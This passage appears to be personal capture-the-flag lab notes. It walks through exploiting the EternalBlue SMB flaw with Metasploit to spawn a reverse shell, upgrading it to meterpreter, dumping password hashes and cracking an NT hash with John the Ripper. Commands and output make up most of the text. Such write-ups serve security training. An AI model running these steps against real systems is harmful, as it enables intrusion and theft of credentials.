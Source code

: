 Using the exploit:
```
use exploit/windows/smb/ms17_010_eternalblue
show options
set payload windows/x64/shell/reverse_tcp
set RHOSTS 10.10.123.129
set LHOST 10.9.5.114
exploit

* should spawn a reverse shell
* ctrl + z to background it
```

Upgrade to meterpreter shell:
```
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
show options
sessions -l
set SESSION <exploit-shell-session-id>
exploit
sessions -i <meterpreter-session-id>

* should get a meterpreter shell here
```

Meterpreter:
```
shell
  -> whoami
     * NT AUTHORITY\SYSTEM
ps
migrate <process id>
hashdump
```

##### John
```bash
echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > hash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash

Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
<password-was-here>         (Jon)
1g 0:00:00:00 DONE (2021-04-21 18:59) 1.851g/s 18889Kp/s 18889Kc/s 18889KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

From here find flags!

#### Vulnversity
